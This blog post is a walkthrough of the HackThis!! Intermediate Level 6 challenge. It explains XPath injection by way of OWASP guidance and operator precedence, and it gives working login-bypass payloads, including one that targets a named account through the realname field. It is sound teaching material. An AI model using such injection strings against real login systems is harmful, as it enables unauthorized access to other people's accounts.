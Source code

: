 ```yaml
---
layout: post
title:  "HackThis!! :: Intermediate :: Level 6"
date:   2016-05-09
---
```


[HackThis!! Intermediate](https://www.hackthis.co.uk/levels/Intermediate)

# Intermediate Level 6

![intermediate06-01](/img/hackthis-intermediate/intermediate06-01.png)

No SQLi, check.  Hint?

![intermediate06-02](/img/hackthis-intermediate/intermediate06-02.png)

The Pastebin contains an XML schema...

```
<xs:schema xmlns:xs="http://www.w3.org/2001/XMLSchema">
  <xs:element name="users">
    <xs:complexType>
      <xs:sequence>
        <xs:element name="user">
          <xs:complexType>
            <xs:sequence>
              <xs:element type="xs:string" name="login"/>
              <xs:element type="xs:string" name="password"/>
              <xs:element type="xs:string" name="realname"/>
            </xs:sequence>
          </xs:complexType>
        </xs:element>
      </xs:sequence>
    </xs:complexType>
  </xs:element>
</xs:schema>
```

[XML injection ](https://www.owasp.org/index.php/Testing_for_XML_Injection_%28OWASP-DV-008%29) seems like a good place to start but it doesn't quite fit the context. The top many results if you Google "XML injection login bypass" reference XPATH injection including the [OWASP XPath Injection Testing Guide](https://www.owasp.org/index.php/Testing_for_XPath_Injection_%28OTG-INPVAL-010%29), that sounds better.

OWASP sums it up nicely:

"Querying XML is done with XPath, a type of simple descriptive statement that allows the XML query to locate a piece of information. Like SQL, you can specify certain attributes to find, and patterns to match. When using XML for a web site it is common to accept some form of input on the query string to identify the content to locate and display on the page. This input must be sanitized to verify that it doesn't mess up the XPath query and return the wrong data." ([source](https://www.owasp.org/index.php/XPATH_Injection))

The sample implementation and exploit on the [OWASP page](https://www.owasp.org/index.php/XPATH_Injection) works on this level with a minor modification.

Assuming the application is coded in a very straightforward way, it might look like this:

```
FindUserXPath = "//Employee[UserName/text()='" & Request("Username") & "' And 
        Password/text()='" & Request("Password") & "']"
```

OWASP suggests the following attack and shows how the malformed input is parsed to modify the XPath.

```
Username: blah' or 1=1 or 'a'='a
Password: blah

FindUserXPath becomes //Employee[UserName/text()='blah' or 1=1 or 
        'a'='a' And Password/text()='blah']

Logically this is equivalent to:
        //Employee[(UserName/text()='blah' or 1=1) or 
        ('a'='a' And Password/text()='blah')]
```

The reason the last part is 'logically equivalent' to the previous is operator precedence in XPath, described [here](http://www.w3.org/TR/xpath/#booleans). AND has a higher precedence than OR. So,

```
//Employee[UserName/text()='blah' or 1=1 or 'a'='a' And Password/text()='blah']
```

becomes

```
//Employee[UserName/text()='blah' or 1=1 or ('a'='a' And Password/text()='blah')]
```

because AND is first. Left with three items to OR, they are evaluated left to right, so:

```
//Employee[(UserName/text()='blah' or 1=1) or ('a'='a' And Password/text()='blah')]
```

I think it's really cool that we inject `1=1` and also `a=a` into the username field but they end up contributing to different clauses in the statement.

Unfortunately this does not work!  It should match and return every username regardless of password input. Presumably this application is built to require a match on only a single record, or specifically that it match Sandra Murphy's account.

We'll use the same idea but swap out the `1=1` for an attempt to match the `realname` field (from the XML schema) to Sandra.

```
Username: blah' or realname/text()='Sandra Murphy' or 'a'='a
Password: blah
```

Assuming the same XPath expression as in the OWASP example, this will look like this:

```
//Employee[UserName/text()='blah' or realname/text()='Sandra Murphy' or 'a'='a' And Password/text()='blah']
```

Which, following the same steps to add parenthesis according to AND/OR operator precedence, is logically the following:

```
//Employee[UserName/text()='blah' or realname/text()='Sandra Murphy' or ('a'='a' And Password/text()='blah')]
```

```
//Employee[(UserName/text()='blah' or realname/text()='Sandra Murphy') or ('a'='a' And Password/text()='blah')]
```

Looks good. Construct a POST request with this username and password and send it along...

![intermediate06-03](/img/hackthis-intermediate/intermediate06-03.png)

BOOM, success. Again, this works because the first clause passes on `realname` being Sandra Murphy, and the second clause passes on `a=a`.

![intermediate06-04](/img/hackthis-intermediate/intermediate06-04.png)

